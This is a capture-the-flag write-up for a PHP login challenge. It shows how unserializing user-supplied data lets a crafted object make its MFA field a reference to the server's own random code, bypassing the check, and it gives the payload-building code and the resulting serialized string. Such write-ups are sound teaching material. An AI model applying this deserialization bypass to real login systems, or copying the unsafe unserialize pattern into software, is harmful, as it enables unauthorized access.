


# Corporate MFA

This is a write-up for the **Corporate MFA** challenge from the **Midnight Sun CTF 2021 Quals**. For this challenge we were given a website with a login form, the source code and the following description:

```
The source for this corporate zero-trust multi factor login portal has been leaked!
Figure out how to defeat the super-secure one time code.
```



Checking the source there's 2 interesting PHP files:
* index.php
* user.php

Starting with the `index.php` file, we can verify that our login input gets serialized and returned as a base64 encoded value on a `userdata` GET parameter. After that it checks if the GET parameter exists, creates a new `User` object with our input (after base64 decoded) and then proceeds to call the `verify()` function within `user.php`. Finally, if that verification is successful, it will give us our flag.
```php
if (!empty($_POST))
{
	// serialise POST data for easy logging
	$loginAttempt = serialize((object)$_POST);
	header('Location: /?userdata=' . base64_encode($loginAttempt));
	die();
}

if (!empty($_GET) && isset($_GET['userdata']))
{
	...
	// check credentials & MFA
	try
	{
		$user = new User(base64_decode($_GET['userdata']));
		if ($user->verify())
		{
			$notification->type = 'success';
			$notification->text = 'Congratulations, your flag is: ' . file_get_contents('/flag.txt');
		}
		else
		{
			throw new InvalidArgumentException('Invalid credentials or MFA token value');
		}
	}
	...
}
```

Moving on to `user.php` the following occurs:  
At the start of the file we see that the `user` object is getting unserialized. This is where the exploit starts, our entry point.
```php
public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}
```

Now, checking our previously called `verify()` function, it's calling another 3 functions for each of our input which we gonna breakdown.
```php	
public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}
```

### verifyUsername()
```php
private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}
```
This one is pretty simple, it has the username hardcoded which is **D0loresH4ze**.

### verifyPassword()
```php
private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}
```
This verification uses the ``password_verify()`` function which checks our given password against a hash. Checking the [manual](https://www.php.net/manual/en/function.password-verify.php) for that function, we find out that the used hash is the same shown on the manual example. We now have the password **rasmuslerdorf**.

### verifyMFA()
```php
private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
```
The MFA token is a generated random number, from **1e10** to **1e11 - 1** (**10000000000** to **99999999999**), that is stored to our `_correctValue` field value and then compared against our input. Can't really predict the MFA value and neither brute force it. However, we can use PHP object references and serialization format to find the correct value.

The way to solve this is by editing our serialized data and reference `mfa` to the value of `_correctValue`.

## Building the payload
To solve the problem we can edit our serialized data and make a reference to the value of `_ correctValue`.  
We use the following code for that:
```php
<?php
    $payload = array();

    $payload['username'] = "D0loresH4ze";
    $payload['password'] = "rasmuslerdorf";
    $payload['_correctValue'] = null;
    $payload['mfa'] = &$payload['_correctValue'];

    echo serialize((object)$payload);
?>
```

Giving the following serialized data:  
`O:8:"stdClass":4:{s:8:"username";s:11:"D0loresH4ze";s:8:"password";s:13:"rasmuslerdorf";s:13:"_correctValue";N;s:3:"mfa";R:4;}`

> The N flag is a null value and the R flag is a pointer reference, more info on that at the bottom of the writeup.

The pointer reference is to the index of **4** cause of the way PHP unserialization data gets stored. Unserialize keeps a table of all the created variables so it supports references. This table always starts at index **1**. Our data should look like this:

Index     | Variable        | Value
----------|-----------------|-------------------
1         | "stdClass"      | 
2         | "username"      | "D0loresH4ze"
3         | "password"      | "rasmuslerdorf"
4         | "_correctValue" | null
5         | "mfa"           | 4

So, `stdClass` works like an associative array for our `user` input, then `_correctValue` starts with a **null** value which will be replaced later on, as we've seen on `user.php` code. Our `mfa` points to the value of the index **4** variable (`_correctValue`).


## Flag
We can now base64 encode our final payload, use it as the value of the `userdata` parameter and send it, thus retrieving the flag.

  

Flag: `midnight{395E160F-4DB8-4D7A-99EF-08E6799741B5}`

## Resources
1. [PHP Internals Book](https://www.phpinternalsbook.com/php5/classes_objects/serialization.html#php-s-serialization-format)
2. [PHP serialization (serialize) format of the detailed](https://topic.alibabacloud.com/a/php-serialization-serialize-format-of-the-detailed_1_34_10040044.html)
3. [Utilizing Code Reuse/ROP in PHP Application Exploits](https://owasp.org/www-pdf-archive/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf)